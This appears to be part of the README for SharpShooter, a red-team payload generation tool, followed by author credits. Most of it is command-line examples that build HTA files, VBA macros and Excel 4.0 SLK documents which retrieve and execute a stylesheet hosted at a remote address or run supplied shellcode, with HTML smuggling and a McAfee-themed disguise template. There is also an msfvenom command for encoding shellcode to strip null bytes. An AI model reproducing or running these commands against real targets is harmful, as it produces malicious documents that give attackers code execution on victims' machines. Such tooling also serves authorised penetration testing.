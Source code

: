 ### Creation of a XSL HTA ###

```
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./x86payload.bin --smuggle --template mcafee --com xslremote --awlurl http://192.168.2.8:8080/foo.xsl
```

This example creates a HTA smuggled file that uses the the XMLDOM COM interface to retrieve and execute a hosted stylesheet.

### Creation of a VBA Macro ###

```
SharpShooter.py --stageless --dotnetver 2 --payload macro --output foo --rawscfile ./x86payload.bin --com xslremote --awlurl http://192.168.2.8:8080/foo.xsl
```

This example creates a VBA macro file that uses the the XMLDOM COM interface to retrieve and execute a hosted stylesheet.


### Creation of an Excel 4.0 SLK Macro Enabled Document ###

```
SharpShooter.py --payload slk --output foo --rawscfile ~./x86payload.bin --smuggle --template mcafee
```

This example creates an Excel 4.0 SLK file that executes the supplied shellcode and wraps it in HTML.
The shellcode cannot contain null bytes, hint:

```
msfvenom -p generic/custom PAYLOADFILE=./payload.bin -a x86 --platform windows -e x86/shikata_ga_nai -f raw -o shellcode-encoded.bin -b '\x00'
```

Author and Credits
==================
Author: Dominic Chell, MDSec ActiveBreach [@domchell](https://twitter.com/domchell) and [@mdseclabs](https://twitter.com/mdseclabs)

Credits:
- [@tiraniddo](https://twitter.com/tiraniddo): James Forshaw for DotNetToJScript
- [@Arno0x0x](https://twitter.com/Arno0x0x): for EmbedInHTML
- [@buffaloverflow](https://twitter.com/buffaloverflow): Rich Warren for Demiguise
- [@arvanaghi](https://twitter.com/arvanaghi) and [@ChrisTruncer](https://twitter.com/ChrisTruncer): Brandon Arvanaghi and Chris Truncer for CheckPlease
- [@subTee](https://twitter.com/subtee): Documentation for Squiblydoo and Squiblytwo techniques
- [@StanHacked](https://twitter.com/stanhacked): Excel 4.0 technique and code examples

